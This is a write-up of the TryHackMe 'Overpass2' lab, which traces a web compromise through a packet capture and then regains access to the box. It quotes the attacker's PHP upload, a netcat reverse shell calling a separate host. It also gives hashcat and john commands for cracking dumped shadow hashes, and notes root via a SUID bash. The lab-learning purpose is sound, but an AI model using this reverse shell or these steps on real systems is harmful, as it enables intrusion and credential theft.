




Overpass2 Writeup
TryHackMe - Overpass2
This room is more a forensics room. The story is that someone has hacked the overpass website and we need to investigate how the attacker got in, what they did, and how we can get back on the box. We’ll be using wireshark and some OSINT to figure out how the attacker got on and we’ll see if we can’t get back on the box. BTW, there is a walkthrough vide of this room by John Hammond, he’s an excellent cyber-security resource on youtube so check him out if that’s your thing.
analyse the PCAP
The first section of this room is to analyse the wireshark packet capture file and see what the attacker did. We’ll figure out where they uploaded, what they uploaded, and all the commands that the attacker used on the box. The first place to start with the packet capture file is http POST requests. Naviagting the file in wireshark and searching for http, we can see a POST request made to the /development/ directory. This is a good place to look. If we inspect the request we can also see the reverse shell that got uploaded.
POST /development/upload.php HTTP/1.1
Host: 192.168.170.159
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:68.0) Gecko/20100101 Firefox/68.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Referer: http://192.168.170.159/development/
Content-Type: multipart/form-data; boundary=---------------------------1809049028579987031515260006
Content-Length: 454
Connection: keep-alive
Upgrade-Insecure-Requests: 1
-----------------------------1809049028579987031515260006
Content-Disposition: form-data; name="fileToUpload"; filename="payload.php"
Content-Type: application/x-php
<?php exec("rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 192.168.170.145 4242 >/tmp/f")?>
-----------------------------1809049028579987031515260006
Content-Disposition: form-data; name="submit"
Upload File
-----------------------------1809049028579987031515260006--
You can see the php code that gave the attacker the reverse shell. Now that we know the packet where the attacker uploaded his shell, we can simply inspect the packets beneath that until we see some shell commands. Netcat reverse shells transmit in clear text. The first command we see is to stabilize the shell. Once we locate that packet we can get a good overview of what the attacker did by going to analyze -> follow -> tcp stream. This allows us to see exactly what commands the attacker used.

The attacker grabbed the user james password and switched to that user. From there, they dumped the /etc/shadow file. The room would like for us to take the shadow file and see how many of the passwords are crackable with the fasttrack.txt wordlist. You can use hashcat or john for this. If you use john, this is what I used:
sudo john hashes.txt --wordlist=/usr/share/wordlists/fasttrack.txt
The last part of this analysis is the program that the attacker used to install a backdoor on the machine. We can see that they cloned a git repo named ssh-backdoor. The next section is all about figuring out what the backdoor does.
analysis of the backdoor
Going to the git repo with the backdoor script here, we see only a couple of scripts, but the main one is, aptly named main.go. We can see that there’s a default hash and a hardcoded salt involved in the code, but the attacker actually used their own hash. We can investigate the PCAP file again to see what the attacker used as their hash. So, with the hash and the salt, we can construct a hash that can be cracked. For this one, I used hashcat. The basic construction of the hash is hash:salt. I saved the hash in a file named attacker_hash, and the command I used is:
hashcat -m 1710 attacker_hash.txt /usr/share/wordlists/rockyou.txt
back to the machine
Once we get that password cracked, we can connect to the victim machine through the backdoor the attacker installed. Once on the machine, we can grab the user flag with ease.

root escalation
The escalation here is easy. The attacker left a quick way to escalate. After trying to run sudo -l with james password and failing, I took a look at the files in the home folder for james and saw a .suid_bash file owned by root. We can run this file with the -p argument to keep the permissions of the file owner and that allows us to get a shell as root.


From there root is only a cat command away. This was a great box that gave me a chance to refresh myself on wireshark and researching some code. Thanks for reading if you’ve gotten this far, and a special thanks to the creator of this box!